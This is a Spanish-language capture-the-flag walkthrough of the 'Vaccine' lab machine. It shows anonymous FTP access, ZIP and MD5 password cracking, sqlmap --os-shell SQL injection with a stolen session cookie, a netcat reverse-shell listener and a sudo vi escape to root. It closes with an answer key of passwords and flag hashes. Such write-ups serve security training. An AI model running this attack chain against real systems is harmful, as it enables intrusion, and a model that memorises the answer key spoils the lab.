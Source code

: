 # Vaccine

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
*   **Tags:**&#x20;

    • **Vulnerability Assessment**: Evaluación sistemática para identificar y clasificar vulnerabilidades en sistemas, aplicaciones o redes.\
    • **Databases**: Repositorios estructurados de datos que pueden ser vulnerables a ataques como SQL injection.\
    • **Custom Applications**: Aplicaciones desarrolladas a medida que pueden contener vulnerabilidades específicas no presentes en aplicaciones comerciales.\
    • **Protocols**: Conjuntos de reglas que permiten la comunicación entre dispositivos, los cuales pueden ser explotados si contienen fallos.\
    • **Source Code Analysis**: Revisión del código fuente para identificar errores o vulnerabilidades de seguridad.\
    • **PostgreSQL**: Sistema de gestión de bases de datos que puede ser explotado mediante ataques como SQL injection.\
    • **FTP**: Protocolo de transferencia de archivos que puede exponer credenciales si no se implementa de manera segura.\
    • **Password Cracking**: Técnica de descifrado de contraseñas mediante ataques de fuerza bruta o diccionario.\
    • **SUDO Exploitation**: Aprovechamiento de configuraciones inseguras de SUDO para escalar privilegios en un sistema.\
    • **SQL Injection**: Inyección de código malicioso en consultas SQL para manipular bases de datos y extraer información.\
    • **Remote Code Execution**: Ejecución de código malicioso de manera remota en un sistema comprometido.\
    • **Clear Text Credentials**: Exposición de credenciales sin cifrado, lo que facilita su robo en tránsito.\
    • **Anonymous/Guest Access**: Permitir acceso sin autenticación o con credenciales por defecto, facilitando ataques.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.137.77
```

<figure><img src="../../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -p- --min-rate 5000 -sV 10.129.137.77
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP,** el **puerto 22** perteneciente al **servicio SSH**  y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

Primero, accedemos a un servidor FTP utilizando el usuario `anonymous`. Esto nos permite descargar un archivo que probablemente está protegido con contraseña.

<figure><img src="../../../.gitbook/assets/image (645).png" alt=""><figcaption></figcaption></figure>

El archivo descargado está protegido con una contraseña. Por lo tanto, necesitamos una herramienta como **John the Ripper** para obtener dicha contraseña.

```bash
zip2john backup.zip > hash.txt
```

<figure><img src="../../../.gitbook/assets/image (646).png" alt=""><figcaption></figcaption></figure>

John the Ripper es una herramienta muy útil para romper contraseñas de archivos protegidos. Vamos a usarlo en conjunto con `zip2john`, que convierte el archivo comprimido en un formato que **John** pueda procesar.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../../.gitbook/assets/image (647).png" alt=""><figcaption></figcaption></figure>

Ahora que tenemos la contraseña, podemos descomprimir el archivo protegido.

<figure><img src="../../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido del archivo `index.php` en el que se nos indica el nombre del usuario y su contraseña aunque en formato **MD5**.

<figure><img src="../../../.gitbook/assets/image (650).png" alt=""><figcaption></figcaption></figure>

A través de esta página desciframos la contraseña [https://www.dcode.fr/funcion-hash-md5](https://www.dcode.fr/funcion-hash-md5)

<figure><img src="../../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

Accedemos con las credenciales obtenidas en los pasos anteriores.

<figure><img src="../../../.gitbook/assets/image (649).png" alt=""><figcaption></figcaption></figure>

Obtenemos el valor de la cookie de cualquier coche.

<figure><img src="../../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap --url="http://10.129.137.77/dashboard.php?search=meta" --cookie="PHPSESSID=q9uc4eavt4kd65pgi5rc32jvgu" --os-shell
```

No hace falta probar más campos si hemos encontrado ya uno que no es ejecutable. Por lo que usamos una reverse shell.&#x20;

```bash
rlwrap nc -lvnp 443
```

<figure><img src="../../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

Tras conseguir la reverse shell y así poder acceder mostramos el contenido del fichero `dashboard.php` en el que se nos muestra un usuario y una contraseña.

<figure><img src="../../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Vemos que podemos usar **vi** con permisos de root. Accedemos al directorio `/var/lib/postgresql` en el que encontramos la flag del usuario.

<figure><img src="../../../.gitbook/assets/image (657).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

Accedemos a través de **SSH** al usuario con sus credenciales.

```bash
ssh postgres@10.129.137.77
```

<figure><img src="../../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

Debemos de modificar el archivo de configuración utilizando **vi**.

```bash
/bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Observamos está página [https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/). Una vez en **vi**, presiona **escape** y luego escribe `:!/bin/bash`.

<figure><img src="../../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

Accedemos al directorio de root en el que contiene la bandera de root.

<figure><img src="../../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### Tarea 1: **Además de SSH y HTTP, ¿qué otro servicio está disponible en esta máquina?**

**FTP**

_Este servicio adicional disponible en el servidor es FTP, utilizado comúnmente para la transferencia de archivos._

#### Tarea 2: **Este servicio puede configurarse para permitir el inicio de sesión con cualquier contraseña para un usuario específico. ¿Cuál es ese nombre de usuario?**

**anonymous**

_El servicio FTP se puede configurar para permitir el acceso sin autenticación real para el usuario `anonymous`._

#### Tarea 3: **¿Cuál es el nombre del archivo descargado a través de este servicio?**

**backup.zip**

_Este archivo, `backup.zip`, fue descargado utilizando el servicio FTP y contiene datos potencialmente importantes._

#### Tarea 4: **¿Qué script viene con el conjunto de herramientas de John The Ripper y genera un hash de un archivo ZIP protegido con contraseña en un formato que permite intentos de descifrado?**

**zip2john**

_El script `zip2john` convierte el archivo ZIP protegido en un formato adecuado para que John The Ripper pueda intentar descifrar la contraseña._

#### Tarea 5: **¿Cuál es la contraseña del usuario admin en el sitio web?**

**qwerty789**

_La contraseña para el usuario administrador es `qwerty789`, y proporciona acceso a funciones administrativas en el sitio._

#### Tarea 6: **¿Qué opción se puede pasar a sqlmap para intentar obtener ejecución de comandos a través de la inyección SQL?**

**--os-shell**

_La opción `--os-shell` de `sqlmap` se utiliza para intentar obtener una shell a través de una vulnerabilidad de inyección SQL._

#### Tarea 7: **¿Qué programa puede ejecutar el usuario postgres como root usando sudo?**

**vi**

_El usuario `postgres` puede ejecutar el editor `vi` con privilegios de root mediante `sudo`, lo que podría permitir la escalada de privilegios._

#### Tarea 8: **Enviar bandera de usuario**

ec9b13ca4d6229cd5cc1e09980965bf7

#### Tarea 9: **Enviar bandera de root**

dd6e058e814260bc70e9bbdef2715849



